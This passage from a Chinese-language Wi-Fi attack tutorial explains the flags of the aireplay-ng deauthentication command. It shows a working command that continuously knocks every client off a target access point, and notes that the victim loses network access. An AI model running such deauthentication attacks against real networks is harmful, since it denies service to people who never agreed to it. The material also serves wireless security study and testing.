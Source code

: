 ● -0 表示取消认证  
● 1 是要发送的解除验证数量（如果您愿意，可以发送多个）；0 表示连续发送  
● -a DC:33:3D:76:55:10 是接入点的 MAC 地址  
● -c 28:6B:35:26:D8:BF 是要取消验证的客户端的 MAC 地址；如果省略，则所有客户端都将被取消身份验证  
● wla0 是接口名称  
执行效果  
[![](assets/1709614896-a56a1ea5d567843f0dd8f0208cd496be.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240303111712-872c0a9e-d90c-1.png)  
取消认证成功，目标不能访问网络，等待 wifi 重新连接  
当然如果存在多个目标，可以使用不设置-c 参数将所有目标取消身份认证，(0) 表示连续无限发送

```plain
aireplay-ng -0 0 -a DC:33:3D:76:55:10  wlan0
```

[![](assets/1709614896-22d53e25c4e580b9ac911e28c9eca31c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240303111744-9a66b438-d90c-1.png)  
效果相同  
[![](assets/1709614896-1f593c15f4df0f6b5ba3f26cdc14fd34.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240303111749-9d6c73d4-d90c-1.png)
